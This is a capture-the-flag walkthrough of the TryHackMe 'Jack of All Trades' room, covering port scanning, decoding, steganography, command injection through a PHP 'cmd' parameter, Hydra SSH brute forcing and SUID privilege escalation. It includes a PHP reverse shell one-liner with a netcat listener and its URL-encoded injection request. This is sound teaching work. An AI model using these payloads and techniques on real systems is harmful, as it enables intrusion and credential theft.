



# Jack of All Trades

I found [this room](https://tryhackme.com/room/jackofalltrades) really interesting and easy. It involves many things like encoding-decoding, steganography and the thing that I liked the most was the way it gives you a feeling of solving a mystery. So, let's begin and get the flags!


### Initial Foothold

The first thing that we can do is run an nmap scan against the deployed machine's IP address.

```
┌─[✗]─[tester@parrot-virtual]─[~]
└──╼ $nmap -A 10.10.137.227
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-27 21:45 IST
Nmap scan report for 10.10.137.227
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.91 seconds
```

Here, we can see that two ports are open: 22 and 80, but there's a catch. Generally, port 22 is used for SSH whereas port 80 is used for HTTP. But here, instead of using the default port values they have interchanged the services running on the two ports i.e. on port 22 we can see HTTP is running whereas SSH is running on port 80. So, in order to access the webpage which we otherwise would've done on port 80, here we need to send the request on port 22.

But when we try to access the webpage using the address `<machine_ip>:22`, we get this error:



To resolve this issue do the following:

1. In the URL bar, enter `about:config`.
2. In the search bar, enter `network.security.ports.banned.override`
3. Select type `String` and click on the `+` sign to add.
4. Enter the port number 22.

After configuration, it should look like:


Now, we can again try to access the page at port 22 and it works!


Reading through the article suggests that we might find a lot of hidden hints at every step as Jack keeps hints for himself as he is old and forgets things. And keeping that in mind, on a webpage the best place to find hints are in it's source-code. So, we can immediately open the source-code of the homepage to see if we can something.


This appears to be a `Base64` encoded string, so we can move to [CyberChef](https://gchq.github.io/CyberChef) and decode the string:

> Remember to wish XXXXX XXXXXX well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: XXXXXXXXXX

We can now visit the page that is also mentioned in the comment and see if this password works over there.


It appears that we can access the machine we if login through this page but we don't know the username. We can check this page's source-code for any kind of hidden note by jack.


So, we get another hint over here. Again it appears to be some sort of encoded string which we can try to decode in [CyberChef](https://gchq.github.io/CyberChef).


Decoding this string involved multiple steps i.e. first we need to use `Base32` decryption, then `convert from HEX` and then finally perform a `ROT13` operation to get the final output. 

Here, we can see that a shortened URL is provided which we can visit.



The shortened URL leads us to a Wikipedia page related to Stegosauria (a type of dinosaur). Now, this appears to be a bit suspicious. Jack likes dinosaurs and there is an image of a dinosaur on the homepage as well. Also, there are many types of dinosaur but the link that is stored in the encoded data was for STEGOsauria which hints towards steganography. This hints that there might be some data hidden in the dinosaur image on the homepage. So, we can download it and run `steghide` on it with the password that we obtained from encoded data on the homepage.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $steghide extract -sf stego.jpg 
Enter passphrase: 
wrote extracted data to "creds.txt".
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $cat creds.txt 
Hehe. Gotcha!

You're on the right path, but wrong image!
```

And it appears that it was a trap for us. But it also says that this image is wrong. So, maybe we need to perform the same thing on some other image. Also, on the homepage we can see that there are 3 images: first one is at the top of the page, dinosaur is the second one and a third one at the end of the page. We can start with the first image for which we need to download it and again run `steghide` over it.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $steghide extract -sf header.jpg 
Enter passphrase: 
wrote extracted data to "cms.creds".
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: XXXXXXXXXXXX
Password: XXXXXXXXXX
```

So, now we have the credenitials for the hidden page from where we can access the machine. Once, we login on the page there is nothing except a note saying:

> GET me a 'cmd' and I'll run it for you Future-Jack.

This hints that we need to pass whatever the command is as a parameter in the URL itself. We can try this by passing a few basic linux commands like `whoami` and `pwd`.

* http://10.10.137.227:22/XXXXXXXX/ZZZZZ.php?cmd=whoami

> GET me a 'cmd' and I'll run it for you Future-Jack. www-data www-data

* http://10.10.137.227:22/XXXXXXXX/ZZZZZ.php?cmd=uname

> GET me a 'cmd' and I'll run it for you Future-Jack. Linux Linux

Running these commands has confirmed that we can perform command injection here. So, with the help of this we can get a reverse shell to the target machine using one of the [Reverse Shell Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We will be using a PHP payload as we are passing the parameters to a PHP page. Also, before passing the payload in the URL, we can URL encode it.

The payload that I am using is:

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

The final request would look something like:

```
http://10.10.137.227:22/XXXXXXXX/ZZZZZ.php?cmd=php%20-r%20%27$sock=fsockopen(%2210.*.*.*%22,4242);$proc=proc_open(%22/bin/sh%20-i%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

Remeber to start a listener on the local machine using the command `nc-nvlp 4242` before sending the request to the target machine. As soon as the request is processed, we get our remote shell:

```
┌─[tester@parrot-virtual]─[~]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.137.227] 47491
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html/nnxhweOV
$ 
```

We can explore the `/home` directory to look for users present on the machine:

```
$ cd /home
$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
```

Here, we can see that there is only one user `jack` on the machine. Along with that we can see a file named `jacks_password_list` which contains a list of random strings. From the file name we can assume that one out of those random strings would be the password to `jack`'s account. But we can't try each password one by one. So, we can use `Hydra` to bruteforce those password. To do so, we need to copy all the content of `jacks_password_list` in a file on our attacking machine which we can pass to `Hydra`.

```
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $hydra -l jack -P pass 10.10.137.227 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 23:05:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.137.227:22/
[ERROR] could not connect to ssh://10.10.137.227:22 - Socket error: disconnected
```

In the first attempt, `Hydra` is not able to connect with the target machine and returns a `Socket Error`. This is because, `Hydra` does not know about the changed service port configuration on the target machine. So, we can make `Hydra` perform SSH bruteforce attack on on port 80 by changing the command as:

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $hydra -l jack -P pass ssh://10.10.137.227:80
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 23:07:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.137.227:80/
[80][ssh] host: 10.10.137.227   login: jack   password: ****************
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-27 23:07:54
```

In the request, `ssh://` tells `Hydra` that we are running bruteforce for SSH service and the trailer `:80` tells it to perform the bruteforce on port 80. 

Now, as we have `Jack`'s credentials, we can SSH into his account. Keep in mind to specify port 80 while trying to login via SSH.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $ssh jack@10.10.137.227 -p 80
The authenticity of host '[10.10.137.227]:80 ([10.10.137.227]:80)' can't be established.
ECDSA key fingerprint is SHA256:wABOsY4G6TIcuJ2bmAIpsoBGVR06p/QGP2J7tfiSy2s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.137.227]:80' (ECDSA) to the list of known hosts.
jack@10.10.137.227's password: 
jack@jack-of-all-trades:~$
```

The first that we can do now is go to jack's directory and obtain the user flag.

```
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
```

But it appears that instead of a text file, the flag is stored in an image. So, we need to start a python HTTP server on the target machine and use `wget` on our attacker machine to download the image file.

Target Machine:

```
jack@jack-of-all-trades:~$ python -m  SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Attacker Machine:

```
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $wget http://10.10.137.227:8000/user.jpg
--2020-09-27 23:14:35--  http://10.10.137.227:8000/user.jpg
Connecting to 10.10.137.227:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 293302 (286K) [image/jpeg]
Saving to: ‘user.jpg’

user.jpg                    100%[=========================================>] 286.43K  67.9KB/s    in 4.2s    

2020-09-27 23:14:39 (67.9 KB/s) - ‘user.jpg’ saved [293302/293302]
```

Now, we can open the image in an image viewer and get the flag easily.



### Privilege Escalation

Now, that we have the user flag our next task is to escalate our privileges to root level and obtain the root flag. The first thing we can check is `sudo -l`:

```
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades
```

It appears that poor jack is not allowed to run any commands with sudo privilege. We can also check the `/etc/crontab`:

```
jack@jack-of-all-trades:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

But even here we don't find any suspicious process running. The next thing we can check is the files for which SUID bit is set:

```
jack@jack-of-all-trades:~$ find / -perm /4000 -exec ls -la {} \; 2> /dev/null  
-rwsr-xr-x 1 root root 464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10248 Apr 15  2015 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 44464 Nov 20  2014 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 55424 Sep 30  2014 /usr/bin/at
-rwsr-xr-x 1 root root 53616 Nov 20  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 39912 Nov 20  2014 /usr/bin/newgrp
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
-rwsr-xr-x 1 root root 149568 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 54192 Nov 20  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 75376 Nov 20  2014 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 89248 Feb 11  2015 /usr/bin/procmail
-rwsr-xr-x 1 root root 3124160 Feb 17  2015 /usr/sbin/exim4
-rwsr-xr-x 1 root root 40000 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 27416 Mar 29  2015 /bin/umount
-rwsr-xr-x 1 root root 40168 Nov 20  2014 /bin/su

```

The basic idea with SUID bits is that, we can run these commands with the privilege level of their owners.  From all these `strings` appears to be a bit different and also it can be used to read the file stored in `\root`. So, we can use it directly:

```
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: *************************************************
```

There we go! We got the root flag as well. And with this we completed the room!

## Some Key Points to Take Away

1. Always check properly the services running on the ports as they might be jumbled.
2. If required change the browser configurations to access the HTTP service hosted on other standard port.
3. If `python3` does not work then use `python` server.
4. Look for odd files with SUID bit set which can be used for our task either directly or indirectly.

### Links Referred

1. TryHackMe-Jack if All Trades: https://tryhackme.com/room/jackofalltrades
2. CyberChef: https://gchq.github.io/CyberChef
3. Reverse Shell Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md